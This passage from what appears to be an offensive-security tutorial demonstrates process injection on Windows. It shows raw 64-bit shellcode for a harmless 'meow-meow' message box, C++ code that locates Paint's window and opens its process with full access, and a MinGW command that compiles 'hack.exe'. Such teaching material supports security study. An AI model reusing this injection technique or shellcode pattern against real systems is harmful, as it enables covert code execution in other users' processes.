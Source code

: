 ```cpp
}
```

As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] = 
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

As you can, see, the main logic is here:

```cpp
//...
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
//...
```

### Demo

Let's go to compile:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
